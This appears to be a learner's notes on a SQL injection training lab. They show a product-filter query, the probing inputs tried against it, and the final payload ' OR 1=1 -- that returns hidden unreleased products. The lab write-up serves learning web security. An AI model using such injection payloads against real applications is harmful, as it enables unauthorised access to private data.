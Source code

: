 # lab1 : SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

# SQL injection vulnerability in the product category filter
SELECT * FROM products WHERE category = 'Gifts' AND released = 1

# End goal : display one or more unreleased products. 

SELECT * FROM products WHERE category = 'Gifts' AND released = 1

SELECT * FROM products WHERE category = 'Pets' AND released = 1

SELECT * FROM products WHERE category = ''' AND released = 1 
-->Internal Server Error

SELECT * FROM products WHERE category = ''--' AND released = 1 
--> after -- all are commented .and nothing is disply after this query run. and '-- is reflecting on the page.

# SELECT * FROM products WHERE category = '' OR 1=1 --' AND released = 1 
--> payload = ' OR 1=1 --



